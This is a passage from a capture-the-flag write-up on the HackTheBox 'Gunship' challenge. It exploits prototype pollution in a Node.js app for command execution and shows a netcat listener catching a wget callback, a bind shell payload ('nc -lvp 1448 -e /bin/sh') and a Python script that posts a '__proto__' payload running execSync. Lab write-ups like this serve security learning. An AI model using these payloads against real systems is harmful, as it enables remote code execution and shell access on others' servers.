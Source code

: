 And it fails... because we're not root on the Docker image apparently... which is a good error message to see, because it means that we're getting code execution, but an error is still an error and it's preventing us from progressing.

So we resort to `wget` which produces a much more positive result instantly.

```bash
╔ bullsec@capstone:~/HTB_Gunship
╚ »»» sudo nc -lvnp 80
Listening on 0.0.0.0 80
Connection received on 172.17.0.2 59244
GET /adada HTTP/1.1
Host: 172.17.0.1
User-Agent: Wget
Connection: close

```

From here we know we have full command execution so it's just a case of figuring out a more malicious/effective payload.

Digging around on the Docker image and we can see that (for some reason) it has `nc` installed, so we can get a Bind shell back to our host machine (since we didn't setup proper port forwarding on the Docker image other than 1337):

```bash
# Change the payload to contain the following line
nc -lvp 1448 -e /bin/sh
```

Fire that off, and then on the host machine we simply need to connect to the newly opened port and we get our shell:

```bash
nc 172.17.0.2 1448
```

### Python Script (Automated Method)

Really simple script, just going to establish a few variables including our payload, then make a call to the site using the `requests` libary and then check the status code, even though that's a bit deceptive as the application will now start throwing a 500 for things like "file not found", so it's not 100% reliable and you probably want to `print` the `req.text` but I like making things more difficult for myself apparently.

```python
import requests

URL = "http://localhost:1337"
#URL = "http://"

payload ={
	"artist.name":"Haigh","__proto__.block": {
	"type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`wget http://172.17.0.1/addasd`)"
	}
}


req = requests.post(URL+"/api/submit", json=payload)
print(req.status_code)
```
